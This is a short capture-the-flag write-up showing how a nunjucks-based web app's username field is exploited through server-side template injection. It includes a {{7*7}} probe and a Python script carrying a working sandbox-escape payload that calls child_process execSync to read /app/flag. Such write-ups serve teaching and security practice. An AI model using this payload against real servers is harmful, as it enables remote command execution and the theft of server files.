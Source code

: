 # SunSet introspecTIon

Challenge Description:

> Watching the sunset with nunjucks to make sure your server side is always protected. The flag is on /app/flag.

## Analyzing the website

Accessing the website gives us a input field for giving our username which just echoes it back to us when we submit it.

![echo username](username.PNG)

According to the description,the server seems to be using the nunjucks templating engine which can be exploitable for SSTI because of unsanitized user input(the username).

We can try to get a proof of concept by using the below command:

command used --> `{{7*7}}`

![poc1](poc1.PNG)

We see that the field is injectable because we get the output back as 49.

![poc2](poc2.PNG)

The below link provides a way for getting RCE by breaking out of the template engine's syntax.We try calling child_process using the templating engine's callables(range,cycler).From there we can call execsync to execute commands.
[nunjucks rce](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)

We can automate it by the below script which uses the GET paramters to send the payload and get the output.

```python
import requests
from bs4 import BeautifulSoup

payload = "{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /app/flag')\")()}}"
url = f"http://cybersecweek.ua.pt:2003/display?payload={payload}"

r = requests.get(url)
soup = BeautifulSoup(r.text, 'html.parser')

output = str(soup.find_all('h1')[0]).replace('<h1>','').replace('</h1>','')
print(output)
```

![flag output](script_output.PNG)

